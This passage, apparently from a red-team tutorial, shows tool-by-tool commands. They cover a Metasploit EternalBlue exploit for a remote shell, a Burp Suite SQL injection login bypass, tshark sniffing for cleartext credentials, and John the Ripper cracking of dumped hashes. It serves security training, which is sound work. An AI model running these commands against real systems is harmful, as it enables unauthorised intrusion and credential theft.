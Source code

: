 #### 2. Metasploit Framework

**Use Case:** Nmap reveals a Windows server at `192.168.1.100` that appears to be vulnerable to the MS17-010 (EternalBlue) exploit. The Red Team will use Metasploit to gain a foothold.

**Commands:**
```bash
# Launch the Metasploit console
msfconsole

# Search for and use the EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set the target host
set RHOSTS 192.168.1.100

# Run the exploit to gain a remote shell
exploit
```

#### 3. Burp Suite (Web Application Testing)

**Use Case:** The Red Team discovers a web application on `192.168.1.50`. They will use Burp Suite to intercept and manipulate login requests to test for SQL injection.

**Action:**
1.  Launch Burp Suite from the terminal: `burpsuite`
2.  Configure your web browser to use Burp Suite's proxy (typically `127.0.0.1:8080`).
3.  Attempt to log in to the web application.
4.  In Burp Suite's "Proxy" > "Intercept" tab, modify the HTTP request parameters with SQL injection payloads (e.g., `'''' OR 1=1 --`).

#### 4. Wireshark (Network Protocol Analyzer)

**Use Case:** After gaining access, the Red Team wants to find credentials being sent in cleartext over the network.

**Commands:**
```bash
# Capture packets on the eth0 interface and save to a file
tshark -i eth0 -w capture.pcap

# Filter the captured packets to find HTTP POST requests
# that might contain login credentials.
tshark -r capture.pcap -Y "http.request.method == POST"
```

#### 5. John the Ripper (Password Cracker)

**Use Case:** The Red Team has dumped password hashes from a compromised database. Now they need to crack them.

**Command:**
```bash
# Assume hashes are in a file named 'hashes.txt'.
# John the Ripper will automatically detect the hash type
# and use its default wordlists to crack them.
john hashes.txt
```

---